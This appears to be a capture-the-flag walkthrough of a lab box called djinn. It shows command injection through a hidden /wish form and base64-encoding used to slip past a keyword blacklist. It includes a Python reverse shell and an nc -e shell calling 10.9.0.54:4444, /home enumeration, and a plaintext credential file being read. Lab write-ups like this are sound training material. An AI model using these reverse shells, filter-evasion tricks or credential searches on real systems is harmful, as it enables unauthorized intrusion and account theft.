 A scan with `dirsearch` reveals the presence of 2 hidden locations: `/wish` and `/genie`.

The `/wish` location is a form that allows to execute commands. It redirects to `/genie` that shows a 403 error code, but the result of the command is still displayed on top of the picture (you can read the output more clearly in the source code of the page).

I tried to make a reverse shell with `nc -e /bin/bash 10.9.0.54 4444` and to make the server download a python reverse shell, but it failed with the message: "Wrong choice of words". There is likely a blacklist in the program.

Let's encode our payload in base64:

~~~
$ echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.0.54\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'" | base64
cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNv
Y2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuOS4wLjU0Iiw0
NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1
cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOycK
~~~

Open a listener (`nc -nlvp 4444`) and send this to the form:

~~~
echo "cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuOS4wLjU0Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOycK" | base64 -d | bash
~~~

The program decoded our base64 shell and executed it. We now have a reverse shell.

We see 2 users under `/home`, 1 of which containing the user flag. Unfortunately, we don't have the permission to read the user flag or read the content of the other user's home folder.

~~~
www-data@djinn:/opt/80$ ls -l /home
ls -l /home
total 8
drwxr-xr-x 5 nitish nitish 4096 Nov 12  2019 nitish
drwxr-x--- 4 sam    sam    4096 Nov 14  2019 sam
www-data@djinn:/opt/80$ ls -l /home/nitish
ls -l /home/nitish
total 4
-rw-r----- 1 nitish nitish 33 Nov 12  2019 user.txt
www-data@djinn:/opt/80$ ls -l /home/sam
ls -l /home/sam
ls: cannot open directory '/home/sam': Permission denied
www-data@djinn:/opt/80$ 
~~~

Searching for files owned by the `nitish` reveals hidden credentials in clear:

~~~
www-data@djinn:/$ $ find / -type f -user nitish 2>/dev/null
/home/nitish/user.txt
/home/nitish/.bashrc
/home/nitish/.dev/creds.txt
www-data@djinn:/$ cat /home/nitish/.dev/creds.txt
cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
~~~
